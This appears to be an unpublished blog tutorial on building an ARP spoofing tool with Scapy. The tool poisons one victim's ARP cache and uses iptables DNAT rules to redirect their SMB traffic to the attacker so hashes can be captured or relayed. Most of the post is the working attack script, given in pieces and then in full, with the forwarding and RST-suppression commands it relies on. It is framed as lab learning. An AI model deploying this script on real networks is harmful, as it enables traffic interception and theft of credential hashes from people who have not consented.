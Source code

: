 ```yaml
---
published: false
---
```

## HowTo ARP Spoof Using Scapy

Sure there are already some pretty good security tools that can pull off ARP spoofing: Ettercap, Bettercap, etc. This post details what I learned when I wanted to do it myself using Scapy, in the hopes that I can help someone else who's also trying to learn how to use Scapy. After a while you get tired of using other people's tools and want to learn how to do it yourself, even if you're just creating yet another tool to do 'X', at least you're learning something new.

Man In The Middle (MITM) attacks against a whole subnet frequently cause a Denial of Service (DoS) condition. In this case, I want to ARP spoof a single victim and redirect any SMB traffic to my attacker system so that I can capture or relay hashes. 

In my lab, my victim was running a fully patched Windows 10 OS. I monitored my arp table using 'arp -a'. In the interest of saving some time and not having to run an extended ARP spoof attack, I cleared my victim's ARP cache using 'arp -d *' before starting the attack.

First, our imports and argument parser. Using sys.argv[] for command line arguments is just clunky. I like to use argparser even in really short scripts that accept cli arguments.

```python
from scapy.all import *
import os
import sys
import argparse

# Add arguments
parser = argparse.ArgumentParser(description='ScapyArpSpoof.py - ARP spoof a victim and redirect their SMB traffic to a local SMB listener to capture or relay hashes.')
parser.add_argument("victim_IP", help="Victim IP address.")
parser.add_argument("interface", help="Network interface name")
parser.add_argument("target_IP", help="Gateway or target IP address. Must be on the same broadcast domain as the attacker and victim.")
args = parser.parse_args()
```

Now we need to set some iptables rules and also enable IP forwarding. The first iptables rule prevents the kernel from seeing traffic that didn't originate from the kernel and sending a RST, which would kill our connection. The ip_forward is necessary, otherwise you'll DoS the victim that you're attacking because your system will intercept their comms but won't forward traffic on to the destination. The final iptables argument is required to forward any SMB traffic on to our attacker's IP address on port 445 so that we can either capture the hash and crack it, or relay it on using tools such as Metasploit, Responder, or other SMB relay tools.

```python
# Prevent kernel from interfering and sending RST's.
os.system("iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP")
# Enable forwarding so that we don't cause a DoS.
os.system("echo 1 > /proc/sys/net/ipv4/ip_forward")
# Redirect SMB traffic between victim and target to our IP address.
os.system("iptables -t nat -A PREROUTING -p tcp --dport 445 -j DNAT --to-destination {}:445".format(get_if_addr(args.interface)))
```

This section creates the variables required for ARP. Hopefully I've commented the code well enough as-is to make it self-explanatory. The reason why you need a victim IP and a target IP is that in this case we're targetting a single victim and don't want to risk making ourselves known and risk DoS'ing a whole subnet. Very frequently a MiTM attack causes service disruptions, so I don't want to target a whole subnet. The target IP is either going to be the system that the victim is communicating with on the same subnet, or the default gateway (router) if on a different network subnet. Adjust the send arguments 'inter' and 'count' if you want to spoof more or less than a count of 60 here, which works out to one request per second for 60 seconds.

```python
# Create Arp args.
a = ARP()
a.pdst = args.victim_IP
a.hwsrc = get_if_hwaddr(args.interface) #attacker MAC address
a.psrc = args.target_IP
a.hwdst = "ff:ff:ff:ff:ff:ff"
send(a, inter=1, count=60)
```

Finally, we're going to clean up those iptables rules and reset IP forwarding to the default.

```python
# Restore iptables and /proc/sys/net/ipv4/ip_forward.
os.system("iptables -D OUTPUT -p tcp --tcp-flags RST RST -j DROP")
os.system("echo 0 > /proc/sys/net/ipv4/ip_forward")
os.system("iptables -t nat -D PREROUTING -p tcp --dport 445 -j DNAT --to-destination {}:445".format(get_if_addr(args.interface)))
```

Complete code:

```python
from scapy.all import *
import os
import sys
import argparse

# Add arguments
parser = argparse.ArgumentParser(description='ScapyArpSpoof.py - ARP spoof a victim and redirect their SMB traffic to a local SMB listener to capture or relay hashes.')
parser.add_argument("victim_IP", help="Victim IP address.")
parser.add_argument("interface", help="Network interface name")
parser.add_argument("target_IP", help="Gateway or target IP address. Must be on the same broadcast domain as the attacker and victim.")
args = parser.parse_args()

# Prevent kernel from interfering and sending RST's.
os.system("iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP")
# Enable forwarding so that we don't cause a DoS.
os.system("echo 1 > /proc/sys/net/ipv4/ip_forward")
# Redirect SMB traffic between victim and target to our IP address.
os.system("iptables -t nat -A PREROUTING -p tcp --dport 445 -j DNAT --to-destination {}:445".format(get_if_addr(args.interface)))

# Create Arp args.
a = ARP()
a.pdst = args.victim_IP
a.hwsrc = get_if_hwaddr(args.interface) #attacker MAC address
a.psrc = args.target_IP
a.hwdst = "ff:ff:ff:ff:ff:ff"
send(a, inter=1, count=60)

# Restore iptables and /proc/sys/net/ipv4/ip_forward.
os.system("iptables -D OUTPUT -p tcp --tcp-flags RST RST -j DROP")
os.system("echo 0 > /proc/sys/net/ipv4/ip_forward")
os.system("iptables -t nat -D PREROUTING -p tcp --dport 445 -j DNAT --to-destination {}:445".format(get_if_addr(args.interface)))
```
